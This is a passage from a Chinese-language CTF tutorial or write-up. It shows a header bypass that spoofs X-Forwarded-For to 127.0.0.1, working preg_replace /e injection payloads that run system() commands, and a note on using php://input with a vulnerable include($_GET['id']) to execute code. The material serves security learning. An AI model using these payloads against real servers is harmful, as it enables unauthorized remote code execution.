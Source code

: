 设置 Header 头 **X-Forwarded-For** 将来源设置为 127.0.0.1，发现如果三个参数（pat、rep、sub）都设
置了会进入一个正则表达式，这里可以利用 preg_replace 的安全问题，详见：[https://xz.aliyun.com/t/2
577](https://xz.aliyun.com/t/2 577)

```
?pat=/1/e&rep=system('ls');&sub=1
```

然后搜一下 flag 就可以了

```
?pat=/1/e&rep=system('grep -r cyber .');&sub=1
```

![img](./assets/3c8c40-a1cfed-78805a221a988e79ef3f42d7-1024x398.png)

更多妙用可以看一下 P 神的 [谈一谈 php://filter 的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

#### php://input

是个可以读取请求的原始数据（输入/输出流）。 如果 html 表单编码设置为"**multipart/form-data**"，
请求是无效的。
一般在 CTF 中用于执行 php 代码（**POST 发包**）

注：需在 php 中设置 **allow_url_include = On**

```
include($_GET['id']);
```

![img](./assets/be2041-17d239-78805a221a988e79ef3f42d7-1024x374.png)
